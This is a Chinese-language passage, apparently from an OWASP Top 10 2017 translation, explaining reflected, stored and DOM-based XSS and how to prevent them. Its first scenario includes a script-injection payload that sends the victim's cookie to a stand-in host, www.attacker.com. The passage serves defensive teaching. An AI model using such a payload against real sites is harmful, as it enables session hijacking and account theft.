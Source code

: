 #### [#](#知识点简介-6) 知识点简介

存在三种 XSS 类型，通常针对用户的浏览器：

*   **反射式 XSS**：应用程序或 API 包括未经验证和未经转义的用户输入，作为 HTML 输出的一部分。一个成功的攻击可以让攻击者在受害者的浏览器中执行任意的 HTML 和 JavaScript。 通常，用户将需要与指向攻击者控制页面的某些恶意链接进行交互，例如恶意漏洞网站，广告或类似内容。
    
*   **存储式 XSS**：你的应用或者 API 将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。 存储型 XSS 一般被认为是高危或严重的风险。
    
*   **基于 DOM 的 XSS**：会动态的将攻击者可控的内容加入页面的 JavaScript 框架、单页面程序或 API 存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的 JavaScriptAPI。
    

典型的 XSS 攻击可导致盗取 session、账户、绕过 MFA、DIV 替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。

#### [#](#案例场景-6) 案例场景

场景 #1：应用程序在下面 HTML 代码段的构造中使用未经验证或转义的不可信的数据：

```
(String) page += "<input name='creditcard' type='TEXT‘
value='" + request.getParameter("CC“) + "'>";


```

攻击者在浏览器中修改 “CC” 参数为如下值：

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.


```

这个攻击导致受害者的会话 ID 被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

注意：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF 的详细情况见 2013 年版中的 A8 项。

#### [#](#如何防止-6) 如何防止?

防止 XSS 需要将不可信数据与动态的浏览器内容区分开。这可以通过如下步骤实现：

*   使用设计上就会自动编码来解决 XSS 问题的框架，如：Ruby 3.0 或 React JS。了解每个框架的 XSS 保护的局限性，并适当地处理未覆盖的用例。
*   为了避免反射式或存储式的 XSS 漏洞，最好的办法是根据 HTML 输出的上下文（包括：主体、属性、JavaScript、CSS 或 URL）对所有不可信的 HTTP 请求数据进行恰当的转义 。更多关于数据转义技术的信息见：[《OWASP Cheat Sheet ‘XSS Prevention’》在新窗口打开](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)。
*   在客户端修改浏览器文档时，为了避免 DOM XSS 攻击，最好的选择是实施上下文敏感数据编码。如果这种情况不能避免，可以采用[《OWASP Cheat Sheet ‘DOM based XSS Prevention ‘》在新窗口打开](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)描述的类似上下文敏感的转义技术应用于浏览器 API。
*   使用内容安全策略（[CSP 在新窗口打开](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)）是对抗 XSS 的深度防御策略。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径遍历覆盖和允许在网络中传输的易受攻击的库），则该策略是有效的。

### [#](#a8-2017-–-不安全的反序列化) A8:2017 – 不安全的反序列化

> 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

#### [#](#知识点简介-7) 知识点简介
